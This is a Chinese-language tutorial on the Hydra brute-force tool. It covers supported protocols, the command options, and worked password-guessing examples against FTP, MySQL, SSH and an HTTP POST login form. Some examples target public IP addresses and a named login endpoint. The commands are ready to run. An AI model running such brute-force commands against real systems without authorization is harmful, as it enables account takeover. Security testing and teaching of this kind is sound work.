








# hydra-暴力破解工具-支持多种协议


<!--more-->

## 一、Hydra简介

Hydra，俗称九头蛇，是一款非常强大的暴力破解工具，支持多种服务协议的账号和密码进行爆破，包括Web登录、数据库、SSH、FTP等服务，支持Linux、Windows、Mac平台安装。

它是由著名的黑客组织THC开发的一款开源暴力破解、验证性质的工具。

目前该工具支持以下协议的爆破：

> AFP，Cisco AAA，Cisco身份验证，Cisco启用，CVS，Firebird，FTP，HTTP-FORM-GET，HTTP-FORM-POST，HTTP-GET，HTTP-HEAD，HTTP-PROXY，HTTPS-FORM- GET，HTTPS-FORM-POST，HTTPS-GET，HTTPS-HEAD，HTTP-Proxy，ICQ，IMAP，IRC，LDAP，MS-SQL，MYSQL，NCP，NNTP，Oracle Listener，Oracle SID，Oracle，PC-Anywhere， PCNFS，POP3，POSTGRES，RDP，Rexec，Rlogin，Rsh，SAP / R3，SIP，SMB，SMTP，SMTP枚举，SNMP，SOCKS5，SSH（v1和v2），Subversion，Teamspeak（TS2），Telnet，VMware-Auth ，VNC和XMPP。

## 二、Hydra安装

Hydra的远程仓库如下，大家可以fork到自己账号下，然后git clone到本地使用即可。

```text
git远程仓库地址：git@gitee.com:changpei12315/thc-hydra-windows.git
```



git下载后的目录如下：



可以配置该目录到环境变量path中，方便后续使用。

## 三、Hydra基本使用

### 1、常见参数

Hydra是一个命令行工具，所有的操作都是通过命令和参数实现的，如下就是最常见的Hydra暴力破解的参数：

| 选项               | 说明                                             |
| ------------------ | ------------------------------------------------ |
| -R                 | 继续上一次破解                                   |
| -I                 | 忽略现有还原文件（不等待10秒）                   |
| -s PORT            | 指定默认端口                                     |
| -l LOGIN           | 指定破解登录用户名                               |
| -L FILE            | 使用文件指定多个用户名                           |
| -p PASS            | 指定密码                                         |
| -P FILE            | 指定密码字典                                     |
| -x MIN:MAX:CHARSET | 密码暴力生成                                     |
| -y                 | 禁止在暴力破解中使用符号                         |
| -r                 | 对选项-x使用非随机方法                           |
| -e nsr             | n：空密码试探，s：使用指定用户和密码试探。       |
| -u                 | 循环用户                                         |
| -C FILE            | 冒号分隔用户名密码：“login:pass” 格式            |
| -M FILE            | 要攻击的服务器列表，每行一个条目，’:'指定端口    |
| -o FILE            | 将找到的登录/密码写入文件                        |
| -b FORMAT          | 指定-o输出格式，默认text,可选json, jsonv1        |
| -f / -F            | 找到用户名/密码后中止破解，-f:每个主机，-F：所有 |
| -t TASKS           | 每个主机并行线程数，默认16                       |
| -T TASKS           | 所有并行线程数，默认64                           |
| -w / -W TIME       | 最大等待响应时间                                 |
| -c TIME            | 所有进程每次尝试登录等待时间                     |
| -4 / -6            | IPv4(默认)/IPv6地址                              |
| -v / -V / -d       | 详细日志模式/每次尝试仅显示用户名密码/调试模式   |
| -k                 | 不重做失败的尝试（适用于-M批量扫描）             |
| -q                 | 不要打印错误连接消息                             |
| -U                 | 服务模块详细使用信息                             |

### 2、案例1-ftp服务账号破解

提前准备一个ftp服务器，以及登录账号和密码（allen、123456），我们可以使用单个用户名破解密码。

aa.txt文件是需要提前准备的常用密码字典，需要包括123456才行。

```text
hydra  -l allen -P e:\aa.txt ftp://127.0.0.1
```



### 3、案例2-mysql账号破解

提前准备一个mysql服务器，以及登录账号和密码（root、root），我们可以使用单个用户名破解密码。

aa.txt文件是需要提前准备的常用密码字典，需要包括root才行。

-e nsr :指定可以尝试空密码。

```text
hydra -l root -P e:\aa.txt -e nsr 127.0.0.1 mysql 
```



### 4、案例3-ssh账号破解

案例中的以阿里云服务器演示，给的指令中的地址和密码需要换成自己的。

```text
hydra -l root -p 123456 120.26.12.53 ssh
hydra -l root -p 123456 ssh://120.26.12.53
hydra -l root -P e:\aa.txt -e nsr ssh://120.26.12.53
```



```text
hydra -l root -P e:\aa.txt -e nsr -vV ssh://120.26.12.53
```

-v参数显示详细的暴力破解的过程。



### 5、案例4-HTTP协议中POST请求破解

可以使用hydra通过网站的登录请求（一般是post），来破解账号和密码（案例中的网址和密码需替换）。

基本的命令为：

```text
hydra -l <username> -P <wordlist> 10.10.146.53 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

选项解释：

- -l ：指定单个的用户名
- -s ：指定端口号
- -L ：用户名文件
- -p ：密码列表文件
- http-post-form：输入提交表单的格式以及字段的名称
- F：用户名密码错误时返回页面的含有的词汇

1）我们先通过抓包工具fiddler抓取登录请求，查看接口的请求地址

```text
http://39.101.167.53/qftest/user/login.html?step=submit
```

2）查看登录post请求的提交的form-data表达数据

```text
username=bk2301_001&password=200c6d94e583e62c6964de3acdc723e5
```

3）设计hydra的指令

```text
hydra -l bk2301_001 -P 
e:\aa.txt -V  39.101.167.53 http-post-form "/qftest/user/login.html?step=submit:username=^USER^&password=^PASS^:error"
```

- -l root 指定单个用户名“root”。（可替换成-L 字典.txt来指定一系列用户名）
- -P cyzidian.txt 指定密码字典cyzidian.txt（可替换成-p 密码 指定单个密码，一般不常用）。
- -o out.txt 将尝试过程与结果保存到out.txt
- -vV显示详细过程
- -f 找到一个结果后停止
- 39.101.167.53 目标ip地址
- http-post-form 使用http协议下的post方法进行破解

4）添加断言



> "/qftest/user/login.html?step=submit:username=^USER^&password=^PASS^:error"
> 这段字符串由三部分组成，由其中的两个冒号划分：
> 第一部分只有一个”/qftest/user/login.html?step=submit“，是指定登录页面所在目录
> 第二部分：username=^USER^&password=^PASS^，由上文可知这就是刚刚在network中看到的POST提交的内容只是把用户名和密码部分换成了^USER^和^PASS^。USER对应前面的-l 后跟的用户名root，PASS会被字典中的密码逐个替换。
> 最后一部分error是指定的判断密码是否正确的条件，默认是黑名单模式，也就是如果返回页面中存在”error“就说明这个密码不正确



## 四、常见的密码字典

收集了一些国内网友常用的密码，可以整理为自己的密码字典，这个字典大家可以持续维护，不断完备。

[安全测试 | 密码字典生成工具-crunch、cupp的使用 - 知乎](https://zhuanlan.zhihu.com/p/652727968)

